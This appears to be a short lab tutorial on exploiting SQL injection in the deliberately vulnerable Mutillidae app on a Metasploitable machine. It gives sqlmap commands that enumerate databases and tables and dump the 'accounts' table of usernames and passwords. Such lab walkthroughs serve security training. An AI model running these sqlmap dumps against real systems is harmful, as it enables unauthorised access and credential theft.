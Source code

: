 We will use the tool **Sqlmap**

- Connect to the Metasploitable machine:

````
ssh msfadmin@ip_addr
````

- Edit the config.inc file in /var/www/mutillidae/
![](./img/mutillidae.png)

- In the mutillidae page, select OWASP Top 10, A1 Injection, SQLi -Extract data, User info
![](./img/mutillidae%202.png)

- Reload
- Save the intercept on a txt file
Follow the next commands:

````
sqlmap -r sqlinjection.txt --dbs

sqlmap -r sqlinjection.txt -D owasp10 --tables

sqlmap -r sqlinjection.txt -D owasp10 -T accounts --dump
````

We get the accounts and passwords:
![](./img/accounts.png)